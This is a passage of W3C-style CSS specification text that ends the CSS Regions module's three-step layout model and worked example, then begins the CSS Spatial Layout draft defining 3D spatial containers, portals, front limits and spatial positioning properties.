named flows are laid out in regions. The user agent resolves the *flow fragment height* for the RFCBs using the remainder of the flow and accounting for [fragmentation rules](#css-break-4). This process accounts for constraints such as the `height` or `max-height` values, as described in the CSS 2.1 section on [calculating heights and margins](#css2:Computing_heights_and_margins) (see the [Block-level non-replaced elements in normal flow...](#css2:normal-block) section and the [complicated cases](#css2:block-root-margin) section). During this phase, generated content is laid out according to the [rules](#css-regions-1:processing-model) described earlier in this document.

In a nested region context, this phase will trigger the beginning of Step 1 for any inner named flows whose regions are contained in the outer named flow. All of Step 1 for inner flows must recursively complete before Step 1 for an outer flow completes.

##### 7.3.2.  Step 2: region boxes layout {#css-regions-1:regions-boxes-layout}

In this step, the document is laid out according to the normal CSS layout rules.

If a measure of the content is required to resolve the used `width` of the region box, the value is resolved as described in the [RFCB width resolution](#css-regions-1:rfcb-width-resolution) section.

If a measure of the content is required to resolve the used height of the RFCB (for example if the region box is absolutely positioned), the flow fragment height resolved in Step 1 is used for the vertical content measure of the RFCB.

At the end of this step, regions are laid out and ready to receive content from their associated named flows.

##### 7.3.3.  Step 3: named flows layout {#css-regions-1:named-flows-layout}

In this final step, the content of named flows is laid out in the regions' RFCBs along with the generated content boxes.

The used `width` for RFCBs is resolved [as described before](#css-regions-1:rfcb-width-resolution).

The used `height` of RFCBs is resolved such that none of the boxes in the region box’s normal flow overflow the region’s box. In other words, the RFCB boxes are stretched vertically to accommodate as much of the flow as possible without overflowing the region box and accounting for [fragmentation rules](#css-break-4) and generated content boxes.

During this phase, generated content is laid out according to the [rules](#css-regions-1:processing-model) described earlier in this document.

In a nested region context, this step will trigger Step 2 for inner named flows whose regions are contained in the outer named flow. Fragmentation of the inner regions may result as they are laid out in the outer region chain. Once Step 3 for an outer named flow is complete, Step 3 for the inner named flows recursively begins.

Once Step 3 for a named flow is complete, The conditions for the [named flow events](#css-regions-1:named-flow-events) are checked, and if the triggers are met the events dispatch at this point.

> **Note:** The model for resolving auto sized regions will cause, under certain circumstances, the flow content to be overset or underset. In other words, it will not fit tightly. The model prevents having circular dependencies in the layout model. Implementations may decide to apply further layout steps to ensure that the whole flow content is displayed to the user, even in edge cases.

#### 7.4.  Regions visual formatting: implementation note {#css-regions-1:regions-visual-formatting-implementation-note}

The process for resolving an RFCB’s `height` and the three-step process used to lay out documents containing regions and named flows are *conceptual* descriptions of what the layout should yield and implementations should optimize to reduce the number of steps and phases necessary wherever possible.

#### 7.5.  Regions visual formatting example {#css-regions-1:regions-visual-formatting-examples}

This section is non-normative.

This example considers a document where content flows between three regions, and region boxes are intermixed with the normal document content.

> **Example:** ```
> <style>
>   article {
>       flow-into: article;
>   }
>
>   #rA, #rB, #rC {
>       flow-from: article;
>       height: auto;
>
>       margin: 1em 1em 0em 1em;
>       padding: 1em;
>       border: 3px solid #46A4E9;
>   }
>
>   #rA {
>       width: auto;
>   }
>
>   #rB {
>       float: left;
>       width: 15em;
>       max-height: 150px;
>   }
>
>   #rC {
>       float: right;
>       width: 12em;
>   }
>
>   #main-flow {
>       padding: 0em 1em 0em 1em;
>   }
> </style>
>
> <body>
>     <article>
>         <p style="break-after:region;">I am not a ... </p>
>         <p>...</p>
>     </article>
>
>     <div id="rA"></div>
>     <div id="rB"></div>
>     <div id="rC"></div>
>
>     <div id="main-flow">
>         <p>Lorem ipsum dolor ...</p>
>     </div>
> </body>
> ```

The following sections and figures illustrate the intermediate results for the visual formatting process. In the following, we call RFCB-A, RFCB-B and RFCB-C the RFCBs for regions rA, rB and rC respectively.

##### 7.5.1.  Step 1 - Phase 1: Laying out RFCBs with used height of zero {#css-regions-1:step1-phase1-example}

Applying the rules for Step 1, Phase 1, the computed `auto` `width` values for the RFCBs are resolved to used values according to the normal [CSS layout rules](#css2:Computing_widths_and_margins) meaning they stretch to the width of their containing block’s content box.

1. RFCB-A: stretches to fit the rA content box.

   Since rA also has an `auto` `width`, its own used `width` is stretched to fit the `<body>` content box.
2. RFCB-B: stretches to fit the `rB` content box.
3. RFCB-C: stretches to fit the `rC` content box.

Also applying the rules for Step 1, Phase 1, the used values for the RFCBs `height` properties are all zero.

Conceptually, this produces the layout illustrated below.


Step 1 - Phase 1: Layout RFCBs with used heights of 0

##### 7.5.2.  Step 1 - Phase 2: Layout flow to compute the RFCBs' flow fragments heights {#css-regions-1:step1-phase2-example}

In this second phase of Step 1, the named flow is laid out in regions and the height of each fragment falling in each RFCB is computed.

The user agent lays out as much of the flow into an area with RFCB-A’s used `width`. rA’s `height` computes to `auto` and there is no vertical maximum height for RFCA’s `height`. However, because there is a break after the first paragraph in the "article" `named flow`, only this first paragraph is laid out in RFCB-A and FH-A (the flow fragment height for RFCB-A) is resolved by laying out this first paragraph in the used `width`.

At this point, the user agent lays out as much of the remaining flow as possible in RFCB-B. Because rB’s `max-height` computed value is "150px", the user agent only lays out the "article" named flow using RFCB-B’s used `width` until the point where laying out additional content would cause RFCB-B to overflow rB’s box. The fragment height for RFCB-B is resolved: FH-B (`150px`).

Finally, the user agent lays out the remainder of the flow in RFCB-C. Because rC has no other constraints and no region breaks, the remaining content is laid out in RFCB-C’s used `width`. This results in a resolved flow fragment height: FH-C.


Step 1 - Phase 2: Measure flow fragments heights

##### 7.5.3.  Step 2: Layout document and regions without named flows {#css-regions-1:step2-example}

The used `width` of RFCB-A, RFCB-B and RFCB-C are resolved as in the previous step. However, the `height` is resolved differently.

Resolving the `height` of rA [requires a content measure](#css2:normal-block) which is FH-A (the flow fragment height for RFCB-A).

The `height` of rB results from first computing its [content measure](#css2:block-root-margin) and then applying the [rules for max-height](#css2:min-max-heights). Here, the vertical content measure evaluates to FH-B. After applying the rules for `max-height` and accounting for margins, padding and borders, the used `height` of rB is resolved to LH-B (`150px`).

The `height` of rC’s box results from [calculating its content measure](#css2:block-root-margin): FH-C becomes rC’s used `height`.


Step 2: Layout document and regions without named flows

##### 7.5.4.  Step 3: named flows layout {#css-regions-1:step3-example}

In this final step, the `article` named flow is laid out in its region chain. The used `width` for each of the RFCB is resolved as in step 1 above.

The used `height` for the RFCB is a result of laying out the as much of the content in the region without overflowing its content box and following the [fragmentation rules](#css-break-4).

Because the computed `width` of the RFCB has not changed and the fragmentation rules applied are the same as in Phase 1, Step 2, the used `height` for RFCB-A, RFCB-B and RFCB-C are LH-A, LH-B and LH-C, respectively.

There may be situations where the used `height` of RFCBs resolved in Step 3 are different from the flow fragment height computed in Step 1 Phase 2.


Step 3: Final result after laying out named flows in regions

### 8.  Relation to document events {#css-regions-1:relation-to-document-events}

The CSS Regions module does not alter the normal processing of events in the document tree. In particular, if an event occurs on an element that is part of a named flow, the [event’s bubble and capture phases](https://www.w3.org/TR/dom/#events) happen following the document tree order.

> **Note:** This means that in most cases CSS Regions will not receive user events that trigger on their named flow content. Event handlers for named flow content can check `getElementsFromPoint()` [CSSOM-VIEW] to find the CSS Region where the user event occurred. Future versions of CSS-UI may provide a more general solution for user event bubbling where the stack of elements at the event coordinates

### 9.  Relation to other specifications {#css-regions-1:relation-to-other-specifications}

This specification is related to other specifications as described in the references section. In addition, it is related to the following specifications:

1. CSS Fragmentation Module Level 3 [CSS3-BREAK]. This module defines the rules for fragmenting content over multiple containers and applies to CSS Regions in addition to applying to multi-column and paged media.
2. CSS Pagination Templates Module Level 3 [CSS3-PAGE-TEMPLATE]. This module defines a syntax to define layout templates which can be used when paginating content. The page templates use regions.
3. CSS Exclusions Module [CSS3-EXCLUSIONS]. This module defines a generic way to define exclusions around which content can flow. This can be seen as an extension to CSS floats. In advanced layout designs, it is expected that the CSS Exclusions module will be commonly combined with the CSS Regions module.
4. CSS Line Grid Module [CSS3-LINE-GRID]. This module defines a concept of line grid to align the position of lines in different elements. The line grid functionality is related and needed for aligning content flowing in separate regions.

### 10.  Use Cases {#css-regions-1:usecases}

Use cases are described on [these](http://wiki.csswg.org/spec/css3-regions/regions-use-cases) [pages](http://wiki.csswg.org/spec/css3-regions/regions-print-use-cases).

---

## CSS Spatial Layout Module Level 1 {#css-spatial-1}

- **Shortname:** `css-spatial-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-spatial-1/](https://drafts.csswg.org/css-spatial-1/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-11-16

### 1.  Introduction {#css-spatial-1:intro}

*This section is not normative.*

This module introduces spatial (3-dimensional) layout to CSS, creating spatial contexts and extending relative and absolute positioning to handle the **z-axis** (perpendicular to the canvas).

> **Note:** The `z-index` property is unrelated to spatial positioning, it merely controls the stacking order at a given z-axis position.

#### 1.1.  Value Definitions {#css-spatial-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

#### 1.2.  Module interactions {#css-spatial-1:placement}

This module extends the capabilities defined in [CSS Positioned Layout](#css-position-4), [CSS Anchor Positioning](#css-anchor-position-2), and [CSS Box Alignment](#css-align-3) to operate in three dimensions (see [§ 3 Spatial Positioning](#css-spatial-1:position-spatial)), and integrates [CSS Transforms](#css-transforms-2) with the newly defined 3D rendering contexts (see [§ 4 Spatial Transforms](#css-spatial-1:spatial-transforms))

The features and layout model defined in this module can be used to express the spatial configuration of [the HTML `<model>` element](https://immersive-web.github.io/model-element/); and 3-dimensional objects defined by `model` elements can be positioned, manipulated, and associated with other document elements using the properties defined here.

### 2.  Establishing Spatial Contexts {#css-spatial-1:spatial-contexts}

#### 2.1.  Establishing Spatial Contexts and Portals: the `spatial` property {#css-spatial-1:portals}

| Field | Value |
| --- | --- |
| Name: | **spatial** |
| [Value:](#css-values-4:value-defs) | none \| page \| portal |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | all elements except internal table elements, internal ruby elements, and inline boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `spatial` property establishes a **spatial container**, generating one or more spatial contexts allowing 3-dimensional layout within the context.

> **Issue:** This property was previously named `portal`, since it would establish a shared spatial context for all the boxes within it. For a `spatial: portal` value (previously `portal: full`), it’s clear when you need to create a shared context vs not. But for page contexts, it’s less clear. Do we want to encourage authors to set up shared contexts, or do we prefer them setting up independent ones for each thing they want to shift in the z axis? This may change whether we want to require shifted content to be contained by a `spatial: page` box or whether we want to allow such boxes to be able to shift their own z-axis position (by having the border box create an implicit spatial container). Relatedly, in the former case we might want to restrict this to apply to boxes that establish formatting contexts, an in the latter we’d want to allow them potentially even for inline boxes.

Values have the following meanings:

****none****

: No effect.

****page****

: Establishes a *limited* front spatial context, which allows spatial positioning in front of the element’s plane. (However, see `front-limit` for limits on this area.)

****portal****

: Establishes two spatial contexts connected by a portal coinciding with the border box of the spatial container:

  - a back spatial context behind the element consisting of a 3-dimensional “world” with its own independent coordinate system, which can be viewed *through* the spatial container’s portal (which acts as a window into this “world”).
  - a front spatial context, which allows relative spatial positioning in front of the element’s plane just like `page` does, as well as behind it by extending through the portal into the the “world” of the back spatial context.

All content that is not positioned using absolute spatial positioning into one of these spatial contexts is drawn and laid out normally in 2D—​effectively on the “glass” of the portal (the **portal plane**)—​and affects / is affected by the size of the element’s box as usual. Relative positioning can be used to shift content in the z-axis relative to the “glass”, see [§ 3.1 Relative Spatial Positioning](#css-spatial-1:position-spatial-relative).

When the element establishes a back spatial context, the page is cut out behind its principal border box: neither its background nor any content behind the box in the normal page context is drawn. Instead, the user views the contents of the back spatial context.

When `spatial` is not `none`, the box establishes a containing volume for all descendant content not otherwise contained by a containing volume (excepting content whose containing block would be an ancestor of this element, such as fixed-positioned boxes).

 

Two diagrams depicting the available space in front of a page (for `spatial: page` and `spatial: portal`) and behind the page (for `spatial: portal`)

##### 2.1.1.  Nesting Portals {#css-spatial-1:portal-nesting}

Nesting a portal inside an existing portal does not create a new visual context or spatial “world”, it merely creates a new coordinate system within the existing back spatial context, establishing a new containing volume and portal transform only.

For example, nesting a `model` element (which establishes its own spatial container) inside an existing portal sizes and positions the model to its spatial container, but the model co-exists with the other content of the parent spatial container rather than creating a new pocket of reality with its own backdrop and lighting conditions.

#### 2.2.  Spatial Contexts and the Spatial Layout Model {#css-spatial-1:spatial-layout-model}

A **spatial context** contains 3-dimensional layout, establishing a coordinate system in all three axes as well 3D rendering context for its content. It defines:

- a **containing volume**, analogous to the containing block, but with the addition of a z-axis, into which descendant objects can be laid out using absolute or relative spatial positioning.
- an **allowed volume**, which limits the rendering of objects by clamping and/or clipping them

The **page allowed volume** limits the rendering of objects, and thus clips the allowed volume of any front spatial contexts on the page. It must include the entire viewport in the X and Y axes, and in front of the page it includes the volume between the page canvas and the UA-defined front limit plane. The UA may, however, extend the page allowed volume beyond the viewport.

> **Note:** The page allowed volume can change during the lifetime of the page. For example, the UA might increase or decrease it depending on the placement of the browser window in relation to the user and/or other UI, the level of trust of the website, whether an immersive viewing mode has been enabled, whether the page has focus, etc.

##### 2.2.1.  The Front Spatial Context {#css-spatial-1:spatial-context-front}

The **front spatial context** of a spatial container establishes a 3-dimensional coordinate system relative to the spatial container itself. In the z-axis, the 3-dimensional box created by the spatial container’s border edges, portal plane, and front limit plane defines the **front spatial context volume**.

For absolute spatial positioning, the containing volume is the front spatial context volume. For relative spatial positioning, the containing volume is the front spatial context volume flattened to coincide with the portal plane.

The allowed volume of the front spatial context is the page allowed volume clipped by the spatial container’s front limit plane in front, clipped by the overflow clip edge on the sides (if `overflow` clipping applies), and in the case of a `spatial: portal` spatial container, extending infinitely into the back spatial context behind the portal.


An illustration of the front spatial context: the model and text have been raised off the page. The pencil model is shown at it’s true size in CSS units. The grid layout has been kept and is usable.

##### 2.2.2.  The Back Spatial Context {#css-spatial-1:spatial-context-back}

The **back spatial context** of a spatial container establishes a 3-dimensional coordinate system independent of the spatial container and its page. Content positioned into this context effectively exists inside its own 3D “world”, connected to the world of the page through the **portal** of the spatial container, which coincides with its border box. The allowed volume of the back spatial context is infinite and unlimited; however it is not rendered except behind the portal plane.

This portal itself is opaque to the page: through it, the user can only see the contents of the back spatial context, not any content placed behind it. By default, the backdrop color of the back spatial context is taken from the `background-color` property. If this color is not opaque, it is first composited on top of `Canvas`. The `background-color` is not otherwise painted, however all other background image layers are painted as usual on the portal plane, as if drawn on the “glass” of the portal.


An illustration of the back spatial context, the entity-transform of the portal scales the chair model down to fit the portal.

> **Note:** The back spatial context’s coordinate system and the relationship of its lengths to those in the page are defined by the `portal-stage` and `portal-transform` properties (respectively).

##### 2.2.3.  Full Portals: Connecting the Front and Back Spatial Contexts {#css-spatial-1:spatial-context-full}

A `spatial: portal` spatial container connects the front and back spatial contexts through its portal, as if it were a window into the back spatial context and the contents of the front spatial context were attached to its window “glass”.

The portal thus connects two coordinate systems: the page coordinate system (used by the front spatial context and all other content on the page) and the back spatial context coordinate system (with its own, independent coordinate system for the objects it contains). Objects in the front spatial context are always sized and positioned using the page coordinate system, *even when they are physically positioned inside the volume of the back spatial context*. (In other words, the front spatial context and back spatial context can coincide in physical rendering space while maintaining their independent coordinate systems.)


An illustration of the front and back spatial context together, the pencil has been rotated so that it overlaps the back spatial context. It is unaffected by the back spatial context’s entity-transform.

#### 2.3.  Configuring the Back Spatial Context {#css-spatial-1:portal-config}

The back spatial context can have an entity transform that differs from the page. The `portal-transform` and `portal-action` properties control this this transform, called the portal transform.

The containing volume of the back spatial context defaults to containing its contents; however it can be explicitly configured with the `portal-stage` property.

##### 2.3.1.  Defining Stage: the `portal-stage` property {#css-spatial-1:stage-volume}

| Field | Value |
| --- | --- |
| Name: | **portal-stage** |
| [Value:](#css-values-4:value-defs) | [ auto \| `<length>` ]{1,4} [ / [ auto \| <length> ]{1,2} ]? |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | spatial containers establishing a back spatial context |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified, but with lengths made absolute |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

The `portal-stage` property defines the containing volume of the back spatial context, as well as its **world origin** (its 0,0,0 coordinate). Values prior to the slash (`/`) are assigned to each side as for `margin`; values after the slash (`/`) are assigned to the back and front, respectively.

> **Note:** The allowed volume of the back spatial context is infinite. The containing volume is only providing the world origin and a reference container for `portal-transform: auto` and absolute spatial positioning.

Values have the following meanings:

****`<length>`****

: The stage expands from the world origin by the specified length towards the indicated side. Values can be negative.

****auto****

: The stage expands from the world origin to contain the contents of the back spatial context on the indicated side.

  > **Note:** This means that `portal-stage: auto` will always include the world origin.

Negative values (including those calculated from `auto`) are clamped to ≤ max(0, *opposite side*) in order to ensure a non-negative containing volume.

**The combination of `portal-stage: auto` (which sizes the stage based on its contents) and percentage `inset` values (which position the content based on the size of the stage) can give weird results.**

> **Note:** This property is analogous to the `object-view-box` property which applies to 2D objects.


This diagram shows a portal set to `portal-stage: 10cm 8cm / 15cm 2cm;` with its size in each dimension labelled. The axes are coloured solid red (X, horizontal), double green (Y, vertical) and dashed blue (Z, depth).

###### 2.3.1.1.  Calculating an Automatic Containing Volume {#css-spatial-1:portal-stage-auto-volume}

For the purpose of `portal-stage: auto`, the contents of the back spatial context are measured:

- Assuming percentages relative to the containing volume are resolved against zero.
- Reducing the bounding box of each object by any negative margins on the relevant side.
- Ignoring any transforms or clipping applied to the object.
- After performing spatial positioning—​see [§ 3 Spatial Positioning](#css-spatial-1:position-spatial). For this pupose, the contribution of an absolute spatial positioned item in an axis constrained by both insets (i.e. not `auto` and thus untethered from having a position until the containing volume is resolved) is derived exclusively from their size: if their outer size + insets in this dimension is larger than the containing volume calculated from all items that are not dual-constrained in this axis, then the containing volume is increased to accommodate that size in whichever direction(s) have an `auto` expansion. If both directions are `auto`, the contribution is split equally between them.

> **Example:** For example, if a back spatial context with `portal-stage: auto` contained two 10″ cubes whose centers coincided with their object origins:
>
> 1. If they were not otherwise positioned, their origins would coincide at the world origin, and their bounding boxes would each be a 10" cube centered on the world origin, resulting in a containing volume that’s the same.
> 2. If one cube were positioned `left: 10in` (which shifts it `10in` to the right), then the containing volume would be from -5in on the left to 15in on the right, with this cube placed between 5in and 15in.
> 3. If that cube instead had `left: 10in; right: -1in; margin: -0.5in`, then the containing volume would be instead from -5in on the left to 13in on the right, with this cube splaced between 4.5in and 14.5in.
> 4. If that cube instead had `left: 20%; right: 0`, then we would resolve 20% to zero for the purpose of resolving the containing volume, thus yielding a containing volume from -5in to 5in. However the cube would then be centered between -2in and 5in (because overconstrained objects are centered, see [§ 3.2 Absolute Spatial Positioning: the spatial-absolute keyword for position](#css-spatial-1:position-spatial-absolute)), and thus actually placed between -3.5in and 6.5in.

##### 2.3.2.  Transforming the Stage: the `portal-transform` property {#css-spatial-1:stage-transform}

| Field | Value |
| --- | --- |
| Name: | **portal-transform** |
| [Value:](#css-values-4:value-defs) | none \| auto \| auto? `<transform-list>` \| <transform-list> auto <transform-list>? |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | spatial containers establishing a back spatial context |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified, but with lengths made absolute |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | Discrete if the presence of the `none` or `auto` keyword differs; otherwise interpolate each `<transform-list>` independently, see [CSS Transforms 1 § 9 Interpolation of Transforms](#css-transforms-1:interpolation-of-transforms). |

This property transforms the back spatial context, i.e. it sets the **portal transform** (sometimes called the “entity transform”). Transforms are applied in order from first to last; therefore transforms listed before `auto` affect the used value of `auto`, whereas transforms listed after it are applied after `auto`-fitting.

****none****

: The world origin of the back spatial context is the center of its border box on the portal plane, and the portal transform ensures that `<length>` values correspond between the page and the back spatial context (i.e. `1cm` in the back spatial context is `1cm` on the page.)

****auto****

: The matrix required to fit the containing volume (or bounding sphere of the containing volume, in the case of `portal-action: orbit`) of the back spatial context into an axis-aligned rectangle whose sides align with content edges of the spatial container, and front aligns with the portal plane. If a `<transform-list>` is specified *before* `auto`, then it is applied to the containing volume prior to this calculation.

****`<transform-list>`****

: The back spatial context is transformed as specified.

> **Note:** This property has no effect on the contents of the front spatial context, even if they intersect with the physical space of the back spatial context.

> **Issue:** Using the content edge for `auto` means that the padding of the spatial container insets auto-fitted content. If we want to allow different amounts of `padding` on portal content vs glass content, then we can introduce a new **`portal-padding`** property—​taking the same syntax as `padding` but with an initial value of `auto` that just copies from the regular `padding` to provide an easy default.

> **Issue:** **Unit Transforms** There are use cases for units that aren’t transformed together with `portal-transform` inside the portal. For example to maintain consistently-sized readable labels of differently-sized objects. As an illustration, here are three different ways we could define the `px` unit:
>
> - Maintain its relationship to physical units as 1/96th of `1in`, thus transforming with the stage and its contents.
> - Maintain its relationship to page coordinates, thus not transforming with `portal-transform` alongside the physical units. In other words, `1px` in the front spatial context would always exactly match `1px` in the back spatial context *after applying the portal transform*.
> - Maintain its size as a visual angle as measured at the portal plane, thus growing as it moves away from the portal. In other words, `1px` in the front spatial context would exactly match `1px` in the back spatial context *at the portal plane*, but as the object being styled in `px` units is positioned further from the portal, the resolution of `1px` grows so that it has the same visual size as `1px` at the portal plane.
>
> This question needs more consideration, and might prompt the addition of new units or the re-interpretation of some existing ones (e.g. transforming the physical units together with the stage, but resolving `px` and relative units against the portal glass). See [CSS Values 4 § 6 Distance Units: the <length> type](#css-values-4:lengths) for more information on CSS length units.


This diagram shows a portal with its contents rotated by 45deg and then automatically scaled/translated to fit using `portal-transform: rotateY(45deg) auto;`.

##### 2.3.3.  Interacting with the Stage: the `portal-action` property {#css-spatial-1:stage-interactivity}

| Field | Value |
| --- | --- |
| Name: | **portal-action** |
| [Value:](#css-values-4:value-defs) | none \| orbit \|\| [ pan \| pan-inline \|\| pan-block \|\| pan-x \|\| pan-y \|\| pan-z ] |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | spatial containers establishing a back spatial context |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property indicates what kinds of motions the back spatial context can accept. The methods of providing the interaction are left to the user agent, and may include gestures, keyboard input, context menus, etc.

Values have the following meanings:

****none****

: The contents of the back spatial context cannot be repositioned or rotated by the user.

****orbit****

: The contents of the back spatial context can be rotated around the center of the containing volume by the user.

  > **Note:** This value also causes `portal-transform: auto` to use the bounding sphere instead of the bounding box.

****pan****

: The contents of the back spatial context can be translated (in any direction) by the user.

****pan-inline** **pan-block** **pan-x** **pan-y** **pan-z****

: The contents of the back spatial context can be translated (in the specified page-aligned axis) by the user.

The transform matrix introduced by these user interactions is applied after any transforms applied by `portal-transform`.

> **Issue:** Better name for this property?

> **Note:** For user gestures involving touch, the `touch-action` property can limit what sorts of gestures are propagated from the element receiving the action to the portal.


With `portal-action` enabled, the user can rotate and zoom the model, while the instructional text stays on the portal surface.

#### 2.4.  Front Limits: how far content can be raised on the page {#css-spatial-1:front-limits}

The **front limit** of a spatial container defines how far forward content is allowed to be rendered. The resulting **front limit plane** is used to clamp the z-axis position of relatively positioned boxes and to clip content that is transformed too far forward towards the user.

The UA is responsible for choosing a comfortable front limit for the user (and defining the page allowed volume accordingly), in consideration of the window context, user preferences, etc. This limit may be dynamically updated during the life of the page.

The author can control the front limit effect with the the `front-limit` property; query the computed `front-limit` of a given spatial container using `getComputedStyle()`; and query the UA-dictated front limit for a page using the `front-limit` media query.

 

These two diagrams show how the same design can be adapted to handle different amounts of available front limit. The left diagram shows a design for when there is no front limit, which uses the portal space. The right diagram shows a design which is able to make use of the front space when the front limit is sufficient.

##### 2.4.1.  Controlling the Front Limit: the `front-limit` property {#css-spatial-1:front-limit-property}

| Field | Value |
| --- | --- |
| Name: | **front-limit** |
| [Value:](#css-values-4:value-defs) | `<length [0,∞]>` \| max |
| [Initial:](#css-cascade-6:initial-values) | TBD |
| [Applies to:](#css-cascade-5:applies-to) | spatial containers |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | a computed `<length>` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property defines the front limit of the spatial container. Its computed value is the specified length computed and clamped by the distance from the portal plane to the front plane of the page allowed volume.

Matching the `front-limit` media query, the computed value for `front-limit` from `getComputedStyle()` is not required to reflect temporary UA adjustments to the page allowed volume.

> **Example:** In this example we set front-limit on the root element allowing it to inherit to all the spatial containers on the page.
>
> ```
> :root {
>   front-limit: 5cm;
> }
> ```

> **Issue:** What should be the initial value? It probably shouldn’t be max, because that will likely set us up for compat pain. And zero wouldn’t be useful. Some possibilities:
>
> - 1rem (scales with font size),
> - 1vmin (scales with window size),
> - 1in (scales with zoom factor)

##### 2.4.2.  Querying the Front Limit: the `front-limit` media query {#css-spatial-1:front-limit-query}

| Field | Value |
| --- | --- |
| Name: | **front-limit** |
| For: | `@media` |
| Value: | `<length [0,∞]>` |
| Type: | range |

The `front-limit` media feature describes the front limit allowed by the UA for this page. This allows authors to define style rules that depend on whether and by how much objects can be placed in front of the page canvas plane.

The UA may limit the responsiveness of `front-limit` to temporary changes to the page allowed volume, to avoid exposing information about the external state of the user agent. In this case, its value should correspond to the effective page allowed volume when the page is in focus and under typical active use.

> **Example:** The `front-limit` media feature allows for alternative design decisions when there is not enough space available.
>
> In this case when there is enough space the images sit in front of the page. Otherwise a portal will be added for them to have space.
>
> ```
> .stack {
>   position: relative;
>   spatial: portal;
>   front-limit: 5cm;
> }
>
> .stack img {
>   rotate: calc(sibling-index() * 10deg);
>   transform-origin: -10% 110%;
>
>   position: absolute;
>   inset-back: calc(100% - sibling-index() * 1cm);
> }
>
> @media (front-limit >= 5cm) {
>   .stack {
>     spatial: page;
>   }
> }
> ```
>
> ```
> <div class="stack">
>   
>   
>   
> </div>
> ```

`front-limit` is false in the negative range.

#### 2.5.  Color Compositing in Spatial Contexts {#css-spatial-1:spatial-colors}

Although by default colors are composited in sRGB in CSS, elements positioned in a spatial context are composited in a UA-chosen linear color space. Thus, for example, if a `section` within a spatial context is raised above its container using `back: 5mm`, although its children will composit with its own background using the usual rules applicable to flat pages, the result will composite with its container and other parts of the page in the linear color space used by the UA for spatial rendering.

> **Note:** This may result in spatial elements having slight color discrepancies compared with otherwise-similar non-spatial elements.

### 3.  Spatial Positioning {#css-spatial-1:position-spatial}

Within a containing volume, boxes can use **spatial positioning** to position themselves in 3D within their spatial context.

The front of the spatial context (towards the user) is considered to be the start side of the z-axis.

#### 3.1.  Relative Spatial Positioning {#css-spatial-1:position-spatial-relative}

When a box is relatively or absolutely positioned within a spatial container (i.e. the spatial container is in the box’s containing block chain), it gains the ability to be positioned in the z-axis using the `inset-front` and `inset-back` properties (**relative spatial positioning**) in addition to positioning in the x-axis and y-axis using the other inset properties. These position the box relative to its containing block’s plane, allowing the content to shift forward and backward with respect to the page canvas plane.

> **Example:** Raising some text of the page by moving it 1cm from the back plane.
>
> ```
> h1 {
>   spatial: page;
>   > span {
>     position: relative;
>     inset-back: 1cm;
>   }
> }
> ```
>
> ```
> <h1><span>My Website</span></h1>
> ```

A positioned box that is contained by a spatial container and whose `inset-front` or `inset-back` property is not `auto` is spatially positioned and rendered using spatial compositing. The box is otherwise composited in 2D with its containing block as normal.

> **Note:** Sticky positioning is considered a type of relative positioning, and thus also gains these abilities.

> **Note:** A spatial container does not trap fixed positioned boxes; its descendants *can* be associated to an ancestor containing block, in which case they do not participate in the spatial container’s spatial context(s).

##### 3.1.1.  Clamping Relative Spatial Positioning to the Front Limit {#css-spatial-1:position-spatial-relative-clamping}

If the `inset-front` and `inset-back` properties would position the box beyond the front limit plane of its portal, then their used values are clamped to stay within the front limit.

In the case of `spatial: page` if the `inset-front` and `inset-back` properties would position the box below the portal plane, then their used values are clamped to stay in the plane of the page.

When elements' positions are clamped to the front limit plane or the portal plane, they are stacked and composited relative to other elements as if the z-axis distance between them were compressed to an infinitesimal amount (rather than flattening them into a single 2D composition).

> **Note:** This means they will continue to be composited in the linear color space used for spatial compositing. See [§ 2.5 Color Compositing in Spatial Contexts](#css-spatial-1:spatial-colors).

#### 3.2.  Absolute Spatial Positioning: the `spatial-absolute` keyword for `position` {#css-spatial-1:position-spatial-absolute}

| Field | Value |
| --- | --- |
| Name: | `position` |
| [New values:](#css-values-4:value-defs) | spatial-absolute |

This module introduces the **spatial-absolute** keyword to the `position` property. When contained by a spatial container, this value takes the now spatially positioned box out of flow and positions it into the containing volume of the back spatial context (in the case of `spatial: portal`), or the front spatial context (in the case of `spatial: page`) of its spatial container.

This style of positioning is called **absolute spatial positioning**, and it uses the inset properties (including the new `inset-back` and `inset-front` properties) very similarly to absolute positioning. Since it works in 3D, in place of the containing block, this style of positioning uses a containing volume.

- When both insets in a given axis are `auto`, the object is positioned so that its origin coincides with the origin of the containing volume.
